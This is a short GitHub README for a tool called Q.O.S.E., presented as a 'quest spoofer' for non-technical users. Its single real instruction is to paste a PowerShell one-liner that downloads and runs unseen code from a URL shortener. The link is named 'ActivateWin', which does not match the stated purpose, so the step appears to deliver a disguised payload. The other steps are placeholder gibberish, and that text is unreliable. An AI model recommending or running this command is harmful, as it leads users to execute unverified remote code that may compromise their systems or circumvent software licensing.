 <p align="center"><img src="https://raw.githubusercontent.com/LazyDevv/Hilao/master/activate.png" alt="activate"></p>

<h1 align="center">Quest Optimization Script Execution (Q.O.S.E.)</h1>

<p align="center">A spoofer based on [this](https://gist.github.com/aamiaa/204cd9d42013ded9faf646fae7f89fbb), with a focus on streamlining the process for normies.</p>
<hr>

## Download / How to use it?

-   sadsad
-   Copy-paste the below code and press enter
    ```
    iex(irm is.gd/ActivateWin)
    ```
-   sadasdsa
-   That's all.

<br>
asfdasfweqfqwdaswdas
</br>

---
<p align="center"> Made with <br>
    <img height="250" src="https://raw.githubusercontent.com/LazyDevv/Hilao/master/ctrlcctrlv.png" alt="ctrlcctrlv"></p>
